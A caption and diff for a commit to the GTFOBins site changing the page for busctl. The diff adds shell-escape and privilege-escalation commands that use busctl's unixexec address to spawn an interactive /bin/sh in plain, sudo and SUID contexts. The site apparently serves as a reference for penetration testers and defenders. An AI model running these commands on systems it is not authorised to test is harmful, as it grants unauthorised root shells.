

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/busctl.md, in a window 1280 px wide. Shown: the whole page at 97% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Promote to shell

```diff
--- a/_gtfobins/busctl.md
+++ b/_gtfobins/busctl.md
@@ -1,15 +1,16 @@
 ---
-description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
 functions:
   shell:
-    - code: |
+    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
+      code: |
         busctl --show-machine
         !/bin/sh
+    - code: |
+        busctl set-property org.freedesktop.systemd1 /org/freedesktop/systemd1 org.freedesktop.systemd1.Manager LogLevel s debug --address=unixexec:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'
   sudo:
     - code: |
-        sudo busctl --show-machine
-        !/bin/sh
-  command:
+        sudo busctl set-property org.freedesktop.systemd1 /org/freedesktop/systemd1 org.freedesktop.systemd1.Manager LogLevel s debug --address=unixexec:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'
+  suid:
     - code: |
-        busctl set-property org.freedesktop.systemd1 /org/freedesktop/systemd1 org.freedesktop.systemd1.Manager LogLevel s debug --address=unixexec:path=firefox,argv1=https://www.example.com
+        ./busctl set-property org.freedesktop.systemd1 /org/freedesktop/systemd1 org.freedesktop.systemd1.Manager LogLevel s debug --address=unixexec:path=/bin/sh,argv1=-pc,argv2='/bin/sh -p -i 0<&2 1>&2'
 ---
```
